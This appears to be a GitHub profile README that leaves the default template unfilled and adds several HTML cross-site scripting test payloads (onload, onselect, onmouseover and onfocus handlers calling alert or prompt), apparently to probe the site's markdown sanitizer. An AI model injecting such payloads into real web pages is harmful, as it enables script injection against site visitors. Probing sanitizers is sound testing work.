 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&v=4)
![
<img src="https://avatars.githubusercontent.com/u/92805783?&s=40&v=" alt="!@#$%¨&*()_+=-{}[]?/:;>.<,\|´`^~"/>
<img src="#<frameset onload=alert(123)>" alt="onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(1)"/>

<img src="http://www.<script>alert(1)</script .com" onselect="alert(String.fromCharCode(88,83,83))"/>

<var onmouseover="prompt(1)">On Mouse Over</var>

<div dir=autofocus/onfocus=alert()>
  <isindex>
</div>

](()
